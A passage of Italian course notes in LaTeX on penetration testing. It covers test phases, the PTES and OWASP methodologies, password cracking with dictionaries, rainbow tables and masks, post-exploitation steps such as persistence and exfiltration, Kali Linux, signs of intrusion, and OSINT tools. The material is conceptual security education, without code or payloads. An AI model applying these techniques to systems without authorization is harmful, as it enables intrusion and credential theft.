    \item \textbf{Scansione delle Vulnerabilità (Vulnerability Scanning)}: Consiste nell'utilizzo di tool automatizzati per verificare la presenza di vulnerabilità note all’interno dei servizi identificati, in modo da per verificare l’aderenza degli host alle policy aziendali e avere ulteriori informazioni sui target, da riutilizzare per il penetration testing, e talvolta forniscono informazioni utili su come mitigare le vulnerabilità trovate.

    \item \textbf{Scansione Wireless (Wireless Scanning)}: Consiste nella scansione della rete e del perimetro fisico aziendale, alla ricerca di dispositivi sconosciuti o ostili (non solo su reti Wi-Fi, ma anche Bluetooth, Segnali RF, etc.).
\end{enumerate}
    
\subsubsection{Tecniche di Validazione della Vulnerabilità del Bersaglio \\(Target Vulnerability Validation Techniques)}
Si tratta di tecniche, sia manuali che automatizzate, per la verifica dell’esistenza di vulnerabilità e si suddividono in tre macro categorie:
\begin{enumerate}
    \item \textbf{Penetration Testing}: Questo standand suddivise il PT in \textbf{quattro} fasi:
    \begin{itemize}
        \item \textbf{Pianificazione (Planning)}: In questa fase il top management approva il progetto, vengono impostati gli obiettivi e viene tutto contrattualizzato.

        \item \textbf{Esplorazione (Discovery)}: Questa fase è ulteriormente suddivisa in \textbf{due} sotto-fasi: 
        \begin{itemize}
            \item \textit{Information Gathering}: In questa sotto-fase si individuano i target e si annotano tutte le informazioni più importanti come l'hostname, l'indirizzo IP, i nomi, le email e i numeri di telefono degli impiegati, le informazioni sui sistemi e sui servizi usati.\\
            Questa fase non si limita alle informazioni "virtuali" ma anche a quelle fisiche, in quanto si possno ricavare informazioni anche da post-it o da sistemi lasciati incustoditi.

            \item \textit{Vulnerability Analysis}: In questa sotto-fase si cercano vulnerabilità mediante tool automatizzati.
        \end{itemize}

        \item \textbf{Attacco (Attack)}: In questa fase il tester cerca di ottenere l'accesso ai sistemi in maniera illecita, sfruttando vulnerabilità o informazioni precedentemente ricavate. Questa fase è suddivisa da \textbf{quattro} sotto-fasi:
        \begin{itemize}
            \item \textit{Ottenimento dell’Accesso (Gaining Access)}
            \item \textit{Aumento dei Privilegi (Escalating Privileges)}
            \item \textit{Esplorazione dei Sistemi (System Browsing)}
            \item \textit{Installazione di Strumenti Addizionali (Install Additional Tools)}
        \end{itemize}

        \item \textbf{Rapporto (Reporting)}: In questa fase il PT annota l'attività svolta sotto forma di log e la inoltra ai sysadmin e al top management durante l'esecuzione delle altre fasi e al termine delle attività stila un rapporto con tutte le vulnerabilità trovate, la loro gravità e consigli per porgli rimedio.
    \end{itemize}

    \begin{figure}[ht]
        \centering
        
\includegraphics[width=0.80\linewidth]{Immagini/PT Phases.png}
        \caption{Schema sulle quattro fasi di PT}
    \end{figure}

    \newpage
    
    \item \textbf{Social Engineering}: Consiste nell'ingannare uno o più individui allo scopo di indurli a rivelare informazioni riservate, da usare per condurre ulteriori attacchi a reti o sistemi e si effettua sia con metodi analogici (per telefono) sia digitali (e-mail o messaggi). Un esempio è il \textbf{phishing}.
    
    \item \textbf{Password Cracking}: Con questo metodo si tenta di ottenere l’accesso ad una o più applicazioni, effettuando multipli tentativi di login seguendo una determinata strategia. Vi sono diversi modi per crackare una password, ma i più usati sono:
    \begin{itemize}
        \item \textbf{Attacchi a Dizionario}: Consiste nel provare tutte le parole all'interno di una lista o dizionario. Di dizionari se ne possono trovare molti in rete tra cui Xato 10M Passwords e Rockyou.

        \item \textbf{Attacchi brute-force}: Consiste nel generare tutti i possibili input, dato l'insieme di caratteri valido per la password. È veloce nel crackare password deboli, ma in genere richiede molto tempo.

        \item \textbf{Attacchi con Rainbow Table e Maschere}.
    \end{itemize}
\end{enumerate}

\subsection{Funzioni Hash, Rainbow Tables e Maschere}
\subsubsection{Funzioni di Hash}
\textbf{Definizione}: Una funzione Hash è una funzione che mappa input di lunghezza \textbf{arbitraria} a stringhe binarie di lunghezza \textbf{fissa} chiamate \textbf{digest}.

Le funzioni di Hash sono \textbf{unidirezionali}, ovvero non sono invertibili e per risalire all'input che ha generato un digest bisogna fare brute-forcing e trovare collisioni.

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.8\linewidth]{Immagini/EsFunzioneHash.png}
    \caption{Esempio di Hashing}
\end{figure}

\newpage
\subsubsection{Funzione Crittografica di Hash}
Una funzione di Hash si dice \textbf{Crittografica} quando gode delle seguenti proprietà:
\begin{enumerate}
    \item \textbf{Resistenza alla preimmagine}: Dato un digest $d$ e una funzione di hash $H$, deve essere difficile risalire ad un input di $m$ tale che $H(m) = d$. 

    \item \textbf{Resistenza alle collisioni}: Dati due input $m1$ ed $m2$ e una funzione di hash $H$, deve essere difficile che i due input producano lo stesso digest, ovvero che $H(m1) = H(m2)$.
\end{enumerate}
In entrambi i casi per difficile si intende:
\begin{itemize}
    \item Infattibile per l'attaccante entro un determinato tempo.
    \item Non possibile in tempo polinomiale.
\end{itemize}

Alcuni esempi di funzioni crittografiche di hash sono: $md5$, $sha1$, $sha256$, $bcrypt$, $Argon2$.

\subsubsection{Immagazzinare le Password}
Immagazzinare le password comporta necessariamente una fase di cifratura, in quanto lasciare password in chiaro mette in pericolo il sistema che la password protegge. Per farlo usiamo funzioni crittografiche di hash.

La funzione $md5$ non è più utilizzata in quanto comprende una falla che permette di ottenere hash simili da input diversi.

Le funzioni $bcrypt$ e $Argon2$ sono nettamente migliori per la cifratura di password in quanto sono computazionalmente più pesanti e hanno una struttura diversa dalle altre funzioni di hash. 

(Aggiungere roba su Argon2)

\subsubsection{Password Cracking On/Off-line}
Il password cracking si differenzia tra Online e Offline.\\
\textbf{Online}: L'attaccante prova attivamente ad effettuare il login 
interagendo con i sistemi target. 
\begin{table}[h]
    \centering
    \begin{tabular}{|m {5 cm}| m{4 cm}|}
        \hline
        \textbf{Pro} & \textbf{Contro} \\
        \hline
        Nessuna preparazione richiesta, attacco lanciabile subito & 
        Genera rumore \\
        \hline
        Possibilità di side-channel attack sui tempi di risposta  &  
        Soggetto a rate limiting, captcha, etc.\\
        \hline
        \quad\quad\quad\quad\quad\quad/ & Possibile lockout dell’utente legittimo\\
        \hline
    \end{tabular}
\end{table}

\textbf{Offline}: L’attaccante ha ottenuto degli hash e cerca di trovare una 
collisione in locale. 
\begin{table}[h]
    \centering
    \begin{tabular}{|m {5 cm}| m{4 cm}|}
        \hline
        \textbf{Pro} & \textbf{Contro}\\
        \hline
        No interazione con i sistemi target: no rumore & Richiede di aver già ottenuto degli hash\\
        \hline
        I difensori non possono fermare l’attacco perché avviene in 
        locale nella macchina dell’attaccante & Richiede storage e potenza di calcolo\\
        \hline
        In assenza di salt è possibile utilizzare rainbow tables o crackare più password contemporaneamente & \quad\quad\quad\quad\quad\ /\\
        \hline
        Possibilità di usare la piena potenza della propria macchina o di affittare cracking rig in cloud per velocizzare l’attacco & \quad\quad\quad\quad\quad\ /\\
        \hline
    \end{tabular}
\end{table}

\subsubsection{Rainbow Table e Hash Chain}
Le Rainbow Table sono enormi database con \textbf{hash precalcolati} a partire da diversi input, ed offrono un buon compromesso tempo/memoria per l’immagazzinamento e il cracking delle password.\\ Attacchi tramite Rainbow Table sono eseguibili solo nel caso in cui si conosca l'hash della password, quindi solo \textbf{offline}.

Vengono salvate solo un numero limitato di password e i relativi hash in quanto sarebbe proibitivo a livello di memoria. Tuttavia le informazioni non salvate possono essere recuperate in tempo lineare.

Supponendo quindi di voler crackare una password \textbf{P}, avremo bisogno di:
\begin{itemize}
    \item Una funzione di hashing crittografico \textbf{H} (la stessa usata per proteggere P)
    \item Una funzione di riduzione \textbf{R} che restituisca una stringa nello stesso insieme di \textbf{P}
    \item Una stringa di partenza \textbf{s} (con caratteri dello stesso insieme di P).
\end{itemize}

Per ogni hash della catena viene calcolata una riduzione, di cui a sua volta viene calcolato l’hash, quindi ad esempio: $H(s) \to R(H(s)) \to H(R(H(s)))$.

Si decidono \textbf{n} iterazioni di riduzione e hash per ogni catena, e vengono salvati solo il primo e l’ultimo elemento. Per creare una tabella di hash il procedimento viene effettuato più volte, a partire da input diversi, per generare diverse catene e coprire quanti più input possibili.

\textbf{Esempio con 5 hash}: $passwd0 \to afb682db \to passwd1 \to f63debc6 \to passwd2 \to bafbef38 \to passwd3 \to b23aebc7 \to passwd4 \to b3eaf54$\\
Verrà salvato solo: $posswd0 \to b3eaf54$

In fase di crack, l’idea è che qualora il nostro hash da crackare fosse in mezzo ad una catena, applicando al più \textbf{n} cicli di \textbf{H} ed \textbf{R} riusciremo ad allinearci con la tabella e capire che possiamo ricalcolare la password che ha generato l’hash da crackare. Nell'effettivo sacrifichiamo tempo nella generazione della tabella in sé e in fase di lookup dell'hash per risparmiare spazio in memoria.

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.51\linewidth]{Immagini/HashChain.png}
    \caption{Hash Chain}
\end{figure}

Tuttavia le \textbf{Rainbow Table} hanno grosse limitazioni:
\begin{itemize}
    \item Ad ogni RT è associata una funzione hash. Non è possibile usare RT per un hash H1 per crackare password protette da un Hash H2.
    \item Le RT, nonostante le ottimizzazioni, occupano un numero notevole di spazio.
    \item Se la password che voglio crackare è fuori dall'insieme di definizione (keyspace) della RT, non posso crackarla.
    \item L'utilizzo del \textbf{salt} e del \textbf{pepper} rende impossibile l'utilizzo di RT.
\end{itemize}

Viste queste limitazioni, per crackare una password facciamo brute-force tramite \textbf{maschere}.

\subsubsection{Attacchi con Maschere}
Gli attacchi con maschere si basano sui criteri comuni con cui gli esseri umani scelgono le password, come l'inserimento mirato di maiuscole e caratteri speciali in punti \textbf{specifici} e non casuali, spesso con veri e propri pattern.

Ipotizzando di conoscere il formato della password da crackare, si può ottimizzare il bruteforce di un hash riducendo il keyspace per ogni carattere.\\
Ovviamente, richiedendo un hash, si tratta di un attacco da effettare offline.\\
Rispetto alle RT, le maschere presentano diversi vantaggi:
\begin{itemize}
    \item Si possono usare più maschere una dopo l'altra per velocizzare enormemente gli attacchi di brute-force.
    \item Sono compatibili con tutte le funzioni Hash.
    \item Richiedono molta potenza computazionale, ma non occupano spazio in memoria.
    \item Il salt (e il pepper (?)), seppur da tenere in considerazione, non ostacolano gli attacchi con maschere.
\end{itemize}

Se tutti i sistemi usassero password con $bcrypt$ o $Argon2$, gli attacchi con maschera sarebbero piuttosto \textbf{difficili}, in quanto otterremmo bassi $H/s$ contro di essi. Allo stesso modo, se tutti i sistemi usassero il salt, le rainbow table sarebbero completamente \textbf{inutili}.\\
Ma moltissimi sistemi non implementano né gli algoritmi sicuri per lo storage 
delle password, né il salt: per questo motivo, sia le rainbow table che i mask attack sono ancora valide oggi.

\subsection{PTES - Penetration Testing Execution Standard}
Sviluppato da venti professionisti con l'obiettivo di aiutare ethical hacker e aziende a fornire migliori servizi di pentest, è costituito da 7 fasi:
\begin{enumerate}
    \item \textbf{Interazioni pre-attività (Pre-Engagement Interactions)}
    \item \textbf{Raccolta di Informazioni (Intelligence Gathering)}
    \item \textbf{Threat Modeling}
    \item \textbf{Analisi delle Vulnerabilità (Vulnerability Analysis)}
    \item \textbf{Sfruttamento (Exploitation)}
    \item \textbf{Post-Sfruttamento (Post-Exploitation)}
    \item \textbf{Reporting}
\end{enumerate}

\subsubsection{Interazioni pre-attività}
In questa fase bisogna:
\begin{itemize}
    \item Definire i sistemi \textbf{in scope} definendo tempo necessario per l'attività (specificando chiaramente la data di inizio e fine, in quanto ulteriori test fuori data di fine necessitano di un'altro contratto) e salario, definendone bene i termini. Una volta stimato il tempo necessario si aggiunge un 20\% in più come paracadute.

    \item  Specificare chiaramente indirizzi IP (o range di indirizzi IP) in scope e/o domini. Anche se il cliente fornisce una lista esaustiva, sta al tester verificare che tutti gli indirizzi appartengano davvero al cliente.
    
    \item Se sono coinvolte terze parti (come host di server web) è necessario ottenere anche il loro consenso in forma scritta per poter svolgere l’attività.

    \item Definire pretesti e scenari di social engineering accettabili, nonché di tecniche ammesse o vietate per il testing.
    
    \item Definire obiettivi dell’attività.
    
    \item Specificare contatti di emergenza, per tutte le parti coinvolte nell’attività.    
\end{itemize}

\subsubsection{Raccolta di Informazioni}
Lo standard PTES suddivide la raccolta di informazioni in 3 livelli, con ogni livello successivo che comprende quelli precedenti e da applicare a seconda del tipo di test da effettuare:
\begin{itemize}
    \item \textbf{LV1}: Ricerca sulle informazioni \textbf{base} dell'azienda (dettagli sul business aziendale, indirizzi email, tecnologie di difesa utilizzate, numeri di telefono, etc.), ottenibili mediante \textbf{tool automatizzati}.

    \item \textbf{LV2}: Ricerca di informazioni sull’azienda (relazioni con aziende partner, posizione fisica delle sedi aziendali, etc.) e il suo business, ottenibili sia mediante tool automatizzati che mediante \textbf{ricerca manuale}.

    \item \textbf{LV3}: Ricerca manuale molto approfondita dei risultati e correlazione degli stessi (competitor, date importanti per l’azienda, registri penali, etc.).
\end{itemize}

\subsubsection{Thread Modeling}
Lo standard PTES suddivide il processo di Threat Modeling in 4 passaggi:
\begin{enumerate}
    \item Raccogliere documentazione utile.
    \item Identificare e categorizzare asset primari e secondari.
    \item Identificare e categorizzare minacce e attori (agents/communities).
    \item Associare (mappare) attori agli \textbf{asset primari} e \textbf{secondari}.
\end{enumerate}

Gli asset \textbf{primari} si riferiscono direttamente al PT in corso mentre quelli \textbf{secondari}, seppur non strettamente legati, sono potenzialmente affetti da danni collaterali.\\
Gli Asset includono: policy, procedure, informazioni sui prodotti offerti, informazioni finanziarie o tecniche, dati personali degli impiegati o dei clienti. 

\subsubsection{Analisi delle Vulnerabilità}
Si tratta di un processo di scoperta, in sistemi e applicazioni, di falle usabili da un attaccante.\\ Si divide in quattro fasi:
\begin{enumerate}
    \item Il \textbf{testing attivo} include l'interazione diretta con il componente da testare, in maniera automatizzata o manuale. Esempi: vulnerability scanning, bruteforcing, etc.

    \item Il \textbf{testing passivo} si riferisce a test che è possibile fare senza interagire direttamente con il componente da testare. Esempio: analisi di metadati di uno o più file.

    \item Uno \textbf{step di valutazione} dei risultati ottenuti. Esempio: l'uso di più tool automatizzati per la scoperta di vulnerabilità comporta che i risultati ottenuti vanno correlati tra loro.

    \item Uno \textbf{step di ricerca}, in cui viene analizzato il possibile impatto delle vulnerabilità trovate, sia in database pubblici, sia replicando l’ambiente da attaccare su una VM di test, e conducendo ulteriori test manuali su quell’ambiente.    
\end{enumerate}
\newpage
\subsubsection{Sfruttamento}
In questa fase, l’obiettivo del tester è quello di riuscire ad accedere ad un 
sistema o ad una risorsa, bypassando delle misure di sicurezza.
\begin{itemize}
    \item È sensato iniziare i test cercando di accedere agli asset con valore più alto, massimizzando l’impatto per l’azienda.
    \item Il tester potrebbe dover modificare degli exploit esistenti perché l’attacco abbia effettivamente successo.
    \item Alcune vulnerabilità potrebbero richiedere la scrittura di exploit zero-day.
    \item Se il tester ha accesso fisico alla struttura aziendale, azioni come il social engineering, attacchi al Wi-Fi, o persino introdursi all’interno del data center o della sala server potrebbero essere consentite.
\end{itemize}

\subsubsection{Post-Sfruttamento}
Questa fase comprende diverse sotto-fasi:
\begin{itemize}
    \item \textbf{Regole dell'Ingaggio (Rules of Engagement)}: Si trattano di regole per limitare l'impatto sul cliente e per proteggere il tester da azioni legali.
    \begin{itemize}
        \item \textbf{Proteggere il Cliente}: Non modificare servizi, documentare tutti i cambi di configurazione, non includere dati personali e password all’interno dei report, cancellare tutto dopo la fine dei test, non rimuovere o modificare nessun log, etc.

        \item \textbf{Proteggere Se Stessi}: Assicurarsi che i sistemi da testare appartengano davvero al cliente, cifrare i dati dei clienti sui propri sistemi, stabilire con il cliente a priori cosa fare in caso si scopra un incidente di sicurezza, verificare leggi locali sulla cattura di audio e video, etc.
    \end{itemize}

    \item \textbf{Analisi dell'infrastruttura (Infrastructure Analysis)}: Si tratta di esplorare l’infrastruttura al fine di trovare sistemi da attaccare.

    \item \textbf{Ulteriore penetrazione dentro l’infrastruttura (Further Penetration Into Infrastructure)}: Si tratta di eseguire azioni
    da/attraverso sistemi compromessi, al fine di violare ulteriori sistemi.

    \item \textbf{Saccheggio (Pillaging)}: Si tratta di ottenere informazioni dagli host attaccati, possibilmente relativi agli obiettivi definiti con il cliente. Esempi: accesso al database, all’active directory, ai name server, etc.

    \item \textbf{Esfiltrazione dei Dati (Data Exfiltration)}: Si tratta di mappare tutti i possibili punti da cui è possibile esfiltrare dati e successivamente esecuzione di test di esfiltrazione. Verificare anche se il blue team aziendale reagisce e blocca tali tentativi.

    \item \textbf{Persistenza (Persistence)}: Si tratta di ottenere un accesso persistente ai sistemi violati. Esempio: installazione di backdoor che sopravvivono ad un reboot della macchina.

    \item \textbf{Pulizia (Cleanup)}: Si tratta di rimuovere tutti gli eseguibili, script e file temporanei dai sistemi compromessi, ripristinare le configurazioni ai loro valori precedenti al PT, rimuovere tutte le backdoor e/o i rootkit, rimuovere tutti gli account creati per stabilire persistenza.    
\end{itemize}
\newpage

\subsubsection{Reporting}
Lo standard PTES stabilisce dei criteri base per scrivere report di PT, che dovrebbe contenere due sezioni:
\begin{itemize}
    \item \textbf{Report Tecnico}: Serve a comunicare tutte le scoperte al personale tecnico, ovvero il CISO e coloro che gestiscono i sistemi target. Il report deve prevedere la descrizione dettagliata di tutte 
    le attività effettuate per ognuna delle sei fasi precedenti, tutti i risultati di tali attività, analisi del rischio delle vulnerabilità trovate e azioni di mitigazione consigliate per ciascuno dei problemi 
    identificati.

    \item \textbf{Sommario}: Serve a comunicare i risultati al personale non tecnico. Esso comprende:
    \begin{itemize}
        \item \textbf{Background}: Riassunto dei termini identificati nel contratto, obiettivi dell’attività, azioni di massima effettuate, contromisure applicate.

        \item \textbf{Overall Posture}: Descrizione ad alto livello dei problemi identificati e loro possibile impatto sull’azienda.
        
        \item \textbf{Risk Ranking}: Descrizione del profilo di rischio aziendale, sulla base dei risultati ottenuti. Si possono utilizzare diverse scale di rischio.
        
        \item \textbf{General Findings}: Sinossi dei problemi trovati (credenziali deboli, sistemi non aggiornati…), con eventuali statistiche.
        
        \item \textbf{Raccomandazioni}: Descrizione ad alto livello delle azioni da intraprendere per risolvere i rischi identificati ed effort richiesto per tali attività.
        
        \item \textbf{Roadmap}: Dividendo le attività sulla base di obiettivi temporali, impostare un realistico piano d’azione a 12 mesi o più, per risolvere le problematiche identificate.
    \end{itemize}
\end{itemize}

\subsection{OWASP - Open Web Application Security Project}
Si tratta di una metodologia specifica per la gestione dei test su applicazioni web. il documento presenta il Web Security Testing Framework, 
che prevede che il security testing delle applicazioni sia effettuato durante tutte le fasi dello sviluppo del prodotto.

\subsubsection{OWASP Framework}
Per ogni fase del SDLC (Software Development Life Cycle), il framework consiglia azioni da effettuare per migliorare la sicurezza del prodotto:
\begin{enumerate}
    \item \textbf{Prima dell’Inizio dello Sviluppo (Before Development Begins)}
    \begin{itemize}
        \item Definire un SDLC tenendo in considerazione le necessità di sicurezza.

        \item Verificare la presenza di policy e standard appropriati, come delle linee di guida.

        \item  Definire, a priori, un insieme di obiettivi da verificare durante i test, al fine di identificare problemi nei processi e nei 
        prodotti.
    \end{itemize}

    \item \textbf{Durante la Definizione e la Progettazione (During Definition and Design)}
    \begin{itemize}
        \item Revisionare i requisiti di sicurezza, e assicurarsi che non ci siano ambiguità.

        \item Revisionare l’architettura e le specifiche, per assicurarsi che non ci siano requisiti di sicurezza mancanti.

        \item  Creare e revisionare \textbf{modelli UML}, verificandone la coerenza coi requisiti di sicurezza e con i requisiti funzionali.

        \item Creare e revisionare \textbf{Threat Model}, analizzando i rischi per capire minacce esistenti e strategie di mitigazione.
    \end{itemize}

    \item \textbf{Durante lo Sviluppo (During Development)}
    \begin{itemize}
        \item Spiegazione del codice sorgente tra altri programmatori e anche ai designer, per spiegare perché alcune cose sono state sviluppate in un determinato modo, e per assicurarsi che tutto segua ancora il design in maniera coerente.

        \item Code review, ovvero analisi del codice sorgente da uno o più tester con buona conoscenza del codice sorgente e dei requisiti da rispettare.
    \end{itemize}

    \newpage
    \item \textbf{Durante la Pubblicazione (During Deployment)}
    \begin{itemize}
        \item Effettuare Penetration Testing.

        \item Verifica delle configurazioni dei vari componenti dell’infrastruttura, assicurandosi che tutti siano stati configurati secondo le policy e non ci siano sistemi con le impostazioni di default.
    \end{itemize}

    \item \textbf{Durante la Manutenzione e l’Utilizzo (During Maintenance and Operations)}
    \begin{itemize}
        \item Implementazione di un processo per la verifica del corretto funzionamento dell’applicazione e dell’infrastruttura.

        \item Verifica periodica dell’applicazione e dell’infrastruttura, per assicurarsi che non ci siano nuovi rischi di sicurezza, dati ad esempio da aggiornamenti o nuovi servizi.

        \item  Verifica dopo che ogni cambio viene approvato e testato, onde verificare che tale cambiamento non abbia comportato un abbassamento del livello di sicurezza del sistema.
    \end{itemize}
\end{enumerate}

\subsubsection{OWASP Testing Categories}
Lo scopo di questa fase è quella di testare di applicazioni web per evidenziare vulnerabilità mentre si analizzano i diversi controlli di sicurezza, suddivisi in 12 categorie:
\begin{enumerate}
    \item \textbf{Raccolta delle Informazioni}.
    
    \item \textbf{Gestione delle Configurazioni e della Pubblicazione (Configuration and Deployment Management Testing)}: si verificano le varie configurazioni, come i permessi pubblici di accesso ai file e alle directory o i metodi HTTP ammessi.

    \item \textbf{Gestione Identità (Identity Management Testing)}: si verifica il processo di creazione e gestione degli account e dei permessi.

    \item \textbf{Autenticazione (Authentication Testing)}: si verifica la password policy, sistemi per evitare bruteforce o password già violate 
    e disponibili in rete e altro.

    \item \textbf{Autorizzazione (Authorization Testing)}: si verifica la possibilità di accedere a risorse per cui non si dispone dei permessi necessari.

    \item \textbf{Gestione Sessioni (Session Management Testing)}: si verifica la complessità dei token di sessione, esposizione accidentale di variabili di sessione e altro.

    \item \textbf{Validazione degli Input (Input Validation Testing)}: si verifica la corretta sanitizzazione di tutti gli input.

    \item \textbf{Gestione Errori (Testing for Error Handling)}: si verifica la gestione degli errori, se vengono stampati messaggi di errore che rilasciano informazioni e altro.

    \item \textbf{Crittografia Debole (Testing for Weak Cryptography)}: si verifica se ci sono dei canali non criptati, la robustezza di TLS e altro.

    \item \textbf{Business Logic Testing}: si verifica se l’applicazione segue in maniera robusta la business logic, oppure se è possibile bypassare misure di sicurezza saltando dei passaggi o impostando dei valori non previsti per delle variabili.

    \item \textbf{Test Lato Client (Client-side Testing)}: si verifica la sicurezza client-side dell’applicazione.

    \item \textbf{API Testing}: si verifica la robustezza delle API messe a disposizione.
\end{enumerate}
\newpage
Per ogni controllo di sicurezza vengono indicati:
\begin{itemize}
    \item \textbf{Riassunto (Summary)}: Consiste nella descrizione del test e del problema che si vuole analizzare.
    
    \item \textbf{Obiettivi (Test Objectives)}: Consiste nell'elencare gli obiettivi del test, spesso identificare vulnerabilità o ottenere 
    determinate informazioni.
    
    \item \textbf{Come Testare (How To Test)}: Si tratta di Esempi su possibili azioni da compiere per verificare il controllo. Se ci sono diversi modi per verificare il controllo, viene elencato almeno un 
    esempio per ciascuno di essi.
    
    \item \textbf{Rimedi (Remediation)}: Si tratta di possibili azioni che possono essere implementate da chi gestisce il sistema obiettivo, al fine di riparare le vulnerabilità trovate.
    
    \item \textbf{Strumenti (Tools)}: Sono link o semplicemente nomi degli strumenti che possono essere utilizzati per il controllo.
    
    \item \textbf{Bibliografia (References)}: Consiste di ulteriori pagine o documenti da leggere per approfondimenti.
\end{itemize}

\section{Distro Offensive}
\subsection{Kali Linux}
Per effettuare attività di Penetration Testing è necessario disporre di innumerevoli tool sviluppati per le varie fasi presenti nelle metodologie precedentemente presentate.\\
Tuttavia alcune distro Linux, come \textbf{Kali Linux}, sono già fornite di questi tool. Essa può essere installata in molteplici dispositivi e in molteplici modi (su disco, live, come VM, su WSL), anche se è fortemente sconsigliato scaricarlo su disco, in quanto:
\begin{itemize}
    \item L'OS blacklista diversi servizi di rete come il bluetooth.
    \item Viene utilizzato un kernel personalizzato per facilitare operazioni offensive mediante wireless, il che potrebbe creare 
    problemi con l’hardware fisico della macchina in cui viene installato.
    \item Vi sono poche repository per Kali.
\end{itemize}
Qualsiasi modifica manuale all'OS potrebbe comportarne il corretto funzionamento.

\subsection{Stealthiness}
Cominciare a utilizzare Kali attivamente può apportare \textbf{modifiche minimali} alla struttura della rete e generare traffico in rete, quindi la nostra presenza potrebbe essere riconosciuta soltanto se:
\begin{itemize}
    \item Una macchina all’interno della rete sta \textbf{inviando pacchetti} direttamente ad \textbf{un’altra macchina} nella stessa rete (possibile movimento laterale).

    \item È comparso un nuovo servizio su una macchina, esponendo una porta che prima era chiusa (possibile backdoor).

    \item Un utente normale sta effettuando azioni che teoricamente non gli sono permesse, o è stato creato un nuovo amministratore locale (possibile privilege escalation).

    \item Un utente sta utilizzando un software che \textbf{non dovrebbe poter usare} (possibile privilege escalation).
    
    \item Una macchina che non dovrebbe effettuare \textbf{upload} sta inviando pacchetti verso un server \textbf{fuori dal perimetro di sicurezza} (possibile esfiltrazione di dati in corso).

    \item È comparsa una \textbf{nuova VM} all’interno della rete o all’interno di un server (possibile movimento laterale).

    \item È comparso un \textbf{nuovo access point Wi-Fi}, accessibile dal perimetro aziendale, con lo stesso nome dell’access point legittimo.
\end{itemize}

\newpage

\section{Information Gathering}
\subsection{Breve Riepilogo e Tipi di Discovery}
La fase di Information Gathering consiste nel raccogliere il maggior numero possibile di informazioni sull'obiettivo e si divide in tre tipologie:
\begin{itemize}
    \item \textbf{Passive Discovery}: Essa prevede la raccolta di informazioni senza interagire direttamente con le macchine dell’azienda bersaglio. Un esempio è il monitoraggio degli account aziendali sui social network

    \item \textbf{Active Discovery}: Essa prevede la raccolta di informazioni tramite l’interazione con le macchine dell’azienda bersaglio, ad esempio scansionando un range di IP per vedere quali macchine sono attive e che servizi hostano.

    \item \textbf{Physical Discovery}: Essa prevede la raccolta di informazioni di presenza visitando le sedi fisiche dell'azienda bersaglio.
\end{itemize}

\subsection{Open Source Intelligence - OSINT}
L'OSINT consiste nell'utilizzo di tool, tramite account fittizi per restare in anonimato, per ottenere informazioni sull'azienda vittima \textbf{senza interagire direttamente} con i suoi sistemi (Passive Discovery).\\
Alcuni tool per fare OSINT sono:
\subsubsection{Amass}
Si tratta di un tool di OSINT per scoprire target come sottodomini, indirizzi IP di server, fare mappature di rete e altro ancora. Il tool contiene tre modalità:
\begin{itemize}
    \item \textbf{Intel}: Modalità che permette di collezionare informazioni sull'azienda, trovando altri domini, macchine che hostano servizi, etc.
    \item \textbf{Enum}: Modalità che enumera sottodomini per l'azienda bersaglio e mappa la superficie d'attacco. Questa modalità contiene due ulteriori sotto modalità:
    \begin{itemize}
        \item \textbf{Attiva}: Interroga attivamente i server per ottenere dettagli dai certificati, dai webserver, effettua bruteforce dei sottodomini.
        \item \textbf{Passiva}: Raccoglie informazioni solamente da terze-parti.
    \end{itemize}

    \item \textbf{DB}: Modalità che permette di interagire con il graph database creato da Amass, che contiene i risultati di varie scansioni effettuate dall'utente.\\
    Se viene usato il parametro \verb|-dir| per ogni directory specificata durante un intel o un enum verrà, creato un graph database di quella directory.
\end{itemize}

\subsubsection{Maltego}
Come Amass, Maltego è un altro tool di OSINT. Può essere usato anche assieme ad Amass e la sua interfaccia grafica ne permette più semplice l'utilizzo, tuttavia di contro Maltego ha un costo elevato che spesso è proibitivo.

Maltego rappresenta le informazioni catturate tramite grafi:
\begin{itemize}
    \item \textbf{Ogni nodo del grafo rappresenta un’Entità}, ovvero un oggetto da cui far partire la ricerca.
    \item Le Entità possono essere \textbf{qualunque cosa}, come nomi di dominio, dispositivi, nomi di compagnie, CVE, indirizzi IP, URL, coordinate GPS, hashtag su social network, nomi di persone fisiche, etc.
    \item A partire da una o più Entità, è possibile applicare delle \textbf{Transform}, al fine di ottenere alcune informazioni legate a tali Entità. Esempi: dati nome e cognome di una persona, recuperare numero di telefono, indirizzo, compagnia, siti web in cui appare il nome, etc.
\end{itemize}

\subsection{Domain Squatting}
